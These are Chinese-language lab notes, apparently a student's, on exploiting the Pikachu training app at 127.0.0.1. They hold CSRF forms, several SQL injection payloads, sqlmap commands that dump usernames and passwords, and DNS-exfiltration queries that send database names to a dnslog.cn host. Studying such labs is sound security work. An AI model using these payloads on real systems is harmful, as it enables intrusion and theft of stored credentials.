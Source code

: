 # pikach-csrf

## get

GET /vul/csrf/csrfget/csrf_get_edit.php?sex=girl&phonenum=111&add=usa&email=lili%40qqq.com&submit=submit

因为目标网站没有进行csrf防御，无法分辨用户的数据包来源

--------------

## post

```html
<form method="POST" action="http://127.0.0.1/vul/csrf/csrfpost/csrf_post_edit.php">
    <input type="hidden" name="sex" value="boy"/>
    <input type="hidden" name="phonenum" value="999999"/>
    <input type="hidden" name="add" value="china"/>
    <input type="hidden" name="email" value="abc@qq.com"/>
    <input type="submit" name="submit" value="恭喜你"/>
</form>
```




---------------

## pikach-sql

### 1，2

### 3

搜索

```sql
select * from table1 where username like '% x %';

?name=l%' union select 1,2,database() --+
```

### 4

### 5

注册：

```sql
'123'),'','','','')' at line 1

insert into table1(username,password,sex,phonenum,email,add)values('用户名','密码','性别','电话','email','地址  ')


insert into table1(username,password,sex,phonenum,email,add)values('用户名','密码','性别','电话','email','1' and extractvalue(1,concat(0x7e,database()))) # ')
```

在用户名和密码以外的地方填写1，2，3，4，然后加\让他报错测算几号位是最后一位

修改：

```sql
update table1 set sex='x',phonenum='x',,address='x',email='x' where username='用户名'

在sex地方\
2',address='3',email='4' where username='zj1'

update table1 set sex='x',phonenum='x',,address='x',email=' x' and updatexml(1,concat(0x7e,database()),1) #  ' where username='用户名'
```

### 6

```sql
delete * from users where id=x

http://127.0.0.1/vul/sqli/sqli_del.php?id=72 and updatexml(1,concat(0x7e,database()),1) --+
```

### 7

```sql
insert into table1(useragent,yuyan,duankou) values('浏览器','语言','端口')


'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8','50485')' 

insert into table1(useragent,yuyan,duankou) values('浏览器 1' and updatexml(1,concat(0x7e,database()),1) and '  ','语言','端口')
```

### 8-9

sqlmap.exe （免python环境)直接打开用

python sqlmap.py xxxxxxxx
python2.7 sqlmap.py xxxxxx
python3 sqlmap.py xxxxxxx

### linux

```sql
sqlmap -u xxxxxxx

Sqlmap -u "http://127.0.0.1/vul/sqli/sqli_blind_b.php?name=lili&submit=%67e5%8be2" --dbs -p name --batch --threads 10

Sqlmap -u "http://127.0.0.1/vul/sqli/sqli_blind_b.php?name=lili&submit=%67e5%8be2"  -p name -D pikachu --tables --batch --threads 10

Sqlmap -u "http://127.0.0.1/vul/sqli/sqli_blind_b.php?name=lili&submit=%67e5%8be2"  -p name -D pikachu -T users --columns --batch --threads 10

Sqlmap -u "http://127.0.0.1/vul/sqli/sqli_blind_b.php?name=lili&submit=%67e5%8be2"  -p name -D pikachu -T users -C username,password --dump --batch --threads 10
```



### 10

POST
name=123%df' union select 1,2 #&submit=%E6%9F%A5%E8%AF%A2

---

盲注补充:
DNS注入
---
my.ini文件

找到
secure_file_priv=
如果找不到，就添加在mysqld的最后一行
重启mysql

http://dnslog.cn
获取一个域名

```sql
?id=1' and if((select load_file(concat('\\\\',(select database()),'.jftaso.dnslog.cn\\fffd'))),1,0) --+

?id=1' and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema=0x70696b61636875 limit 0,1),'.jftaso.dnslog.cn\\fxxxfd'))),1,0) --+
```



把select database()的结果（pikachu）合着自己的域名.jftaso.dnslog.cn（pikachu.jftaso.dnslog.cn），使用load_file进行请求，请求信息就会被jftaso.dnslog.cn的dns服务器抓到

DNS查询原理
从右往左解析！！！！
pikachu.jftaso.dnslog.cn

===============

